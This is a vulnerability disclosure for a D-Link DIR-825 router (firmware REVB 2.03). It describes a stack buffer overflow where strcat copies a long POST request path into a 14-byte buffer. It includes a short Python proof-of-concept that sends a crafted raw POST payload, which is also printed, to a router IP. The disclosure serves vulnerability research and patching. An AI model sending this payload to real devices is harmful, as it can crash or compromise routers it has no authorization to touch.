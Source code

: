 # Overview
Details of the vulnerability found in the dlink router dir-825.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-825    |  REVB_FIRMWARE_2.03    | https://legacyfiles.us.dlink.com/DIR-825/REVB/FIRMWARE/DIR-825_REVB_FIRMWARE_2.03.ZIP   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `sub_4091AC` at offset 0040A62C, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- When the program processes a user's POST request, if the requested path does not start with a whitelisted prefix such as `auth.tmp` or `HNAP1.txt` etc., and does not have a `.cgi` extension, it proceeds to logic that appends the requested path to /www/ and attempts to locate the corresponding file. However, this concatenation is performed using the unsafe `strcat` function, and the destination buffer can only hold up to `14` bytes of data. If the POST request exceeds this limit, a stack buffer overflow may occur. With carefully crafted input, this vulnerability can be triggered.
![second](./assets/2.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /biurl_groulllllllllllllllt;domain_filtel_domain_filtnectconnewan_pppoe_secondary_dns_00cgi+oconndmconnecr.cgroet;r_info.xml ng
```

# Vulnerability Verification Screenshot
##  dir-825
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
